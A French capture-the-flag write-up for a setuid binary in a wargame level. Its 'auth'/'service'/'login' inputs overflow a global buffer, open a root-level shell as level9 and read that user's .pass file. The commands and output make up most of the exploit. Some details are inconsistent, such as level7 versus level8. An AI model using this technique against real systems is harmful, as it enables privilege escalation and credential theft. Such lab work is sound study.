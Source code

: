 ## Comportement
- J'ai des droits `level8` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7*`
- En exécutant le binaire (`./level7`), on observe:
  ```shell
    ./level7 
    Segmentation fault (core dumped)
    ./level7 111
    Segmentation fault (core dumped)
    ./level7 111 222
    ~~
    ./level7 111 222 333
    ~~
  ```


## Analyse
- Une seule fonction `main()` qui exécute la commande `system("/bin/sh")` après une série de conditions. Il attend des commandes spécifiques de la part de l'utilisateur :
  -`auth` : copie les données suivant `auth` dans la variable globale `auth`.
  -`service` : copie les données suivant `service` dans la variable globale `service`.
  - `login` : appelle system() si auth[32] est différent de 0, sinon il appelle fwrite(). Ensuite, il affiche les adresses des variables globales auth et service.
- On voit que l'adresse de `service` est 16 bytes apres celle de `auth`.
  ```shell
    ./level8
    (nil), (nil)
    auth 
    0x804a008, (nil)
    service
    0x804a008, 0x804a018
  ```


## Résolution
- On cree `auth` et `service` pour qu'ils aient au moins 32 bytes de long (pour que `auth[32] != NULL`) sans oublier les 16 bytes de padding.
  ```shell
    ./level8
    (nil), (nil)
    auth 
    0x804a008, (nil)
    serviceBBBBBBBBBBBBBBB
    0x804a008, 0x804a018
    login
    $ whoami
    level9
    $ cat/home/user/level9/.pass
  ```
- On obtient directement le password. Il nous reste plus qu'a passer au level9 (`su level9`) en renseignant ce password.
